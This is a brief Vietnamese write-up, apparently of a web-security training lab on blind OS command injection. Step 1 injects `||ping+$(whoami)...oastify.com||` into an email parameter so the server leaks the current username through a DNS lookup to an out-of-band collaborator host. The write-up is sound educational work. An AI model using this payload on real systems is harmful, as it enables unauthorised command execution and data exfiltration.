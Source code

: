 ## Blind OS command injection with out-of-band data exfiltration

1. Sửa email param thành ``||ping+$(whoami).9oyhe79l5yrr04tmy6ahpe3tnkteh3.oastify.com||`` khi đó server sẽ thực hiện DNS lookup

![Img1](\asset/../img/payload.png)

2. Trong tab Collaborator client nhận được request kèm username người dùng hiện tại

![Img2](\asset/../img/result.png)
